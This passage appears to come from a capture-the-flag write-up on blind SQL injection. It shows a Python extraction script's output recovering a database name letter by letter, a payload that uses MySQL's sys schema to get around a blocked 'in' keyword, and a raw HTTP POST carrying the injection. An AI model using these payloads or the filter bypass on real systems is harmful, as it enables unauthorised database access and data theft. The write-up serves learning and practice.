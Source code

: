 ```python  
						result=result+i  
						print '[+] Database Name : {}'.format(result)  
						break  
		j+=1

dump_database()  
```

which shows result as  
```css  
root@MrR3boot:~# python do.py  
[+] Database Name : o  
[+] Database Name : ow  
[+] Database Name : owl  
[+] Database Name : owl_  
[+] Database Name : owl_d  
[+] Database Name : owl_do  
[+] Database Name : owl_don  
[+] Database Name : owl_donk  
[+] Database Name : owl_donke  
[+] Database Name : owl_donkey  
```  
Now we have database name and next step is to identify ``table names``. But
HOW ?

We see ``in`` keyword blocked where we can't use
``information_schema|innodb``. After hours and hours of searching online we
could read about ``sys`` database which comes with ``MySQL Community
Edition``.

After digging around i've found this reference
https://dev.mysql.com/doc/refman/8.0/en/sys-schema-object-index.html which
states about which table does what. This helped a lot in identifying a table
which has all table names indexed in it.

So i crafted a payload like ``2 && length((select table_name from
sys.x$schema_table_statistics where table_schema=database() limit 0,1))=5`` to
find the tablename length then found two responses for below requests.

```  
POST /index.php HTTP/1.1  
Host: 45.77.240.178:8002  
Connection: close  
Accept-Encoding: gzip, deflate  
Accept: */*  
User-Agent: python-requests/2.21.0  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 119

id=2%26%26+length((select+table_name+from+sys.x$schema_table_statistics+where+table_schema%3ddatabase()+limit+0,1))+<+6

HTTP/1.1 200 OK  
Date: Tue, 07 Jan 2020 20:15:39 GMT  
Server: Apache/2.4.29 (Ubuntu)  
Vary: Accept-Encoding  
Content-Length: 250  
Connection: close  
Content-Type: text/html; charset=UTF-8

  
  
  
  
<center>  
Security Check!!! Please enter your ID to prove who are you !!!:  
```